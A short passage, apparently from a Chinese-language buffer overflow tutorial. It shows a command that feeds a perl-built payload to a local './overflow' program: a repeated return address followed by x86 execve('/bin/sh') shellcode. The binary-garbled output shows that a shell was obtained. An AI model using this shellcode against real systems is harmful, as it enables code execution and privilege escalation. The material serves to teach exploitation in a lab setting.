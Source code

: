 退出`gdb`，从命令行直接运行，成功获取shell。

```Shell
$ ./overflow `perl -e 'print "\xc0\xd1\xff\xff"x12'``perl -e 'print "\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`�������������������������������������������������[1��C��C                                                          �                                                           ��S                                                              �����/bin/sh$
```
